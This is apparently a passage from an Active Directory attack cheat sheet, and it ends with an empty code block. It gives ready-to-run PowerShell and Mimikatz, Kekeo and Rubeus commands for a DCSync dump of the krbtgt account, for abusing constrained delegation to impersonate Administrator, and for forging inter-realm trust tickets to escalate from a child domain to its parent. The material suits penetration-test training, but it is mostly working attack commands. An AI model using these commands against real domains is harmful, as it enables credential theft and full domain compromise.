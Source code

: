 **4. DCSync attack against Corp using the injected ticket:**
```powershell
# Run DCSync with Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'
```

### Constrained Delegation

#### Pre-requisites
#### Kekeo:
```powershell
.\kekeo.exe
```
Link: [Kekeo](https://github.com/gentilkiwi/kekeo/)

**1. With Powerview dev Version:**
```powershell
# Users enumeration
Get-DomainUser -TrustedToAuth
# Computers Enumeration
Get-DomainComputer -TrustedToAuth
# Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname
```
**2. With AD Module:**
```powershell
# Enumeration users and computers with constrained delegation enabled
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
**3. With Kekeo:**
```powershell
# Requesting TGT
tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
# Requesting TGS
/tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
# Use Mimikatz to inject the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```
**4. With Rubeus:**
```powershell
# Requesting TGT and TGS
.\Rubeus.exe s4u /user:<username> /rc4:<hash> /impersonateuser:Administrator /msdsspn:"CIFS/<domain>" /ptt
```

### Child to Parent using Trust Tickets

**1. Look for [In] trust key from child to parent:**
```powershell
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"'      
```
**2. Create the inter-realm TGT:**
```powershell
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:<hash> /service:krbtgt /target:<domain> /ticket:C:\<directory>\trust_tkt.kirbi"'
```
**3. Get a TGS for a service in the target domain by using the
forged trust ticket.:**
```powershell
# Get a TGS for a service (CIFS below)
.\asktgs.exe C:\<directory>\trust_tkt.kirbi CIFS/mcorp-dc.corporate.local
```
**4. Use the TGS to access the targeted service and check:**
```powershell
```